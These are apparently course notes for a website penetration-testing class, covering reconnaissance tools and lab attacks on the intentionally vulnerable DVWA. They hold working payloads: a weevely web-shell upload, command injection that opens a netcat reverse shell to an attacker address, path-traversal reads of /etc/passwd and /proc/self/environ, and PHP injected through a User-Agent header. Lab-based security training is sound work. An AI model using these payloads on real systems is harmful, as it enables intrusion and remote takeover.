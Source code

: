 # Metasploit Course Notes

Welcome to the [Metasploit](https://www.metasploit.com/) course notes for the Udemy course [Learn Website Hacking / Penetration Testing From Scratch](https://www.udemy.com/learn-website-hacking-penetration-testing-from-scratch/)

## Starting Kali Linux

Fire up the Kali Linux Virtual Box image and login using the username:password - `root:toor`

## Starting Metasploitable

Fire up the Metasplotable Virtual Box image and login using the username:password - `msfadmin:msfadmin`. Run `ifconfig` and make a note of the IP address. Then in the Kali Linux instance, open Firefox and paste in the IP address to the address bar. You can now play with Metasplotable web applications via the browser in Kali Linux!

## Open DVWA

Clik the [DVWA](http://www.dvwa.co.uk/) link from the home page of Metasplotable. Login using the username:password - `Admin:password`

## Information gathering

First things first. You must know your target! Here are some tools to gather information you need:

* [WhoIs Tools](http://whois.domaintools.com/) - Find information about the owner of the target site
* [Netcraft Site Report](https://toolbar.netcraft.com/) - Find information about the technology used
* [BuiltWith](http://builtwith.com/) - Find information about the technology used
* [Robtex DNS Lookup](http://robtex.com) - Comprehensive DNS information about the target site
* [Subdomain Discovery](https://github.com/guelfoweb/knock) - Subdomain scanner (requires git clone)
* [Password Database](https://haveibeenpwned.com/) - check if your email has been leaked as a result of a previous exploit in a service you are signed up to

Basic usage of Knock outlined below:

```
# Do this in Kali Linux :)
git clone https://github.com/guelfoweb/knock.git
cd knock
sudo python setup.py install
knockpy -h
knockpy rotati.com
```

* [Files & Directories using DIRB](https://tools.kali.org/web-applications/dirb) - DIRB  IS  a  Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.

Use `dirb` (within Kali Linux) like so: `dirb http://example.com`

This will scan example.com for a large number of potentially accessible files. The dirb application has a list of common words that it may check for `/usr/share/dirb/wordlists/common.txt` For example it might try the following:

```
+ http://example.com/.ssh                                              
+ http://example.com/.subversion (CODE:200|SIZE:32854)                                         
+ http://example.com/.svn 
+ http://example.com/.swf 
+ http://example.com/.web 
+ http://example.com/404 
+ http://example.com/500 
+ http://example.com/about
+ http://example.com/admin
+ http://example.com/admin.cgi 
+ http://example.com/admin.php 
+ http://example.com/admin.pl
+ http://example.com/ajax 
+ http://example.com/AT-admin.cgi
+ http://example.com/blog

...etc, etc
```

* [Maltego](https://en.wikipedia.org/wiki/Maltego) - Maltego is software used for gathering and managing open-source intelligence and forensics.

## Exploitations

This section is about discovering and using exploits.

## Discover exploits

Once you have the information about the target its now time to check what exploits are possible. Here are some online tools to help with that:

* [Exploit DB](https://www.exploit-db.com/) - lists publicly known exploits for many different software products
* [IP Search](https://bing.com) - Discover if other sites are running on the same server via an [IP address search](https://www.bing.com/search?q=ip%3A13.250.177.223)

## File upload exploits

Simple exploit that allows uploading of server side script files (like PHP) via a vulnerable file upload form presented on the website.

First create a 'shell' script using the scripting language of the target website. Since we are targeting DVWA, the script can be PHP.

Make sure that the security level in the DVWA website is set to 'low'.

Use `weevely` to generate the script as follows: `weevely generate 123456 /root/shell.php`. Now run `ls -la /root` and you will see the script file. Now go to the DVWA Upload page and upload the php script you just generated.

Now in a terminal type use weevely to control the DVWA server like so: `weevely http://10.0.2.4/dvwa/hackable/uploads/shell.jpg 123456`

## Code execution exploits

Go to the Command Execution example in the DVWA website. Type in an ip address to ping. Then append another commend to it like this: `10.0.2.4;pwd`. You should see the output of the ping + the pwd command meaning that there is a code execution vulnerability here.

With this we can get something known as a 'reverse connection' from the target computer. Here is how:

So in Kali Linux (i.e. the 'attackers computer') start a netcat session like so: `nc -vv -l -p 8080`. This is basically a session that is listening (because of the `-l` switch passed to the `nc` command) for incomming connections on port 8080.

In the DVWA website, go to the Command Execution example and enter the following which will establish a connect with the attacker: `10.0.2.4;nc -e /bin/sh 10.0.2.15 8080`

Just with that, the attacker now essentially has a netcat terminal session with the target machine.

## Local file exploits

Since the fi example in DVWA exploits the file inclusion we can easily read the contents of any file on the server. For example to read the file `/etc/passwd` we just put the following in the address bar of the browser and the contents of the /etc/passwd file are sent back to us `http://10.0.2.4/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd`.

So there is a file in linux / unix systems that can be used to read all enviornment variables. The file is `/proc/self/environ`. We can pass that to the server and read the contents like so: `http://10.0.2.4/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ`

So with this we can intercept the request (using Burp) and change the 'User-Agent' header value to some php script that we want to execute. Basically we can set up a reverse connection (similar to the code execution example above) again using the following injected code into the header: `<? passthru('nc -e /bin/sh 10.0.2.15 8081');?>`

## More local file explot examples

Lets try and load a log file that shows login attempts to the server, which is the file `/var/log/auth.log`. So we change our url to be as follows: `http://10.0.2.4/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log`










